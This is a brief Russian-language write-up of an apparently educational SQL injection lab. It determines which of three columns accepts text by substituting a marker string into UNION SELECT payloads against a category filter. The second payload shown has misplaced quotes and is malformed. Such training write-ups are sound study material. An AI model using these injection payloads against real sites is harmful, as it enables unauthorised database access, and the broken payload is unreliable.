




Зайдем в любую категорию.  
   
Убедимся, что количество столбцов равно 3, как и в Lab3.  
   
Далее подставляем нужную нам строчку (в данном случае '9dzlxj') вместо каждого из NULL. 
'UNION SELECT '9dzlxj', NULL, NULL--   
   
'UNION SELECT ', NULL, 9dzlxj', NULL--  
Нам подошел второй столбец.  

